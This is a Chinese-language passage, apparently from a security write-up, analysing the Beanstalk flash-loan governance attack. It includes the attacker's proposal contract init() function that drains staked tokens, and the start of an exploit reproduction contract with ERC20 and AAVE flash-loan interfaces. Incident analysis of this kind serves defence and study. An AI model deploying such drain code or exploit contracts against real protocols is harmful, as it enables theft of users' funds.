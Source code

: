 一旦攻击者成功调用 emergencyCommit，那么 BeansProtocol 会以 delegatecall 的形式调用提案合约地址中的函数（详见文章之前小节分析）：

```solidity
    function initializeDiamondCut(address _init, bytes memory _calldata) internal {
        if (_init == address(0)) {
            require(_calldata.length == 0, "LibDiamondCut: _init is address(0) but_calldata is not empty");
        } else {
            require(_calldata.length > 0, "LibDiamondCut: _calldata is empty but _init is not address(0)");
            if (_init != address(this)) {
                enforceHasContractCode(_init, "LibDiamondCut: _init address has no code");
            }
            (bool success, bytes memory error) = _init.delegatecall(_calldata);
            if (!success) {
                if (error.length > 0) {
                    // bubble up the error
                    revert(string(error));
                } else {
                    revert("LibDiamondCut: _init function reverted");
                }
            }
        }
    }
```

攻击者布置的 BIP18 提案合约的 init() 函数逻辑如下，会直接将协议内的质押资产转移到攻击合约中：

```solidity
function init() public{
        IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).transfer(msg.sender, IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).balanceOf(address(this)));//bean
        IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).transfer(msg.sender, IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).balanceOf(address(this)));//wethBeanLP
        IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).transfer(msg.sender, IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).balanceOf(address(this)));//beanCrv
        IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).transfer(msg.sender, IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).balanceOf(address(this)));//beanLusd
    }    
```

攻击者完成攻击和闪电贷还款流程后，将所有攻击所得在 DEX 内换为 ETH，最终获利24830个ETH。

![image-20220511154924377](https://github.com/s3cunDa/s3cunDa.github.io/assets/post/image-20220511154924377.png)

### 攻击复现

攻击合约：

```solidity
pragma solidity ^ 0.8.0;
import "hardhat/console.sol";
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external ;
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external;// returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function decimals() external view returns(uint);
}

interface IAAVEPool{
    function flashLoan(address,address[] calldata ,uint256[] calldata ,uint256[] calldata ,address onBehalfOf,bytes calldata ,uint16 referralCode) external;
}
```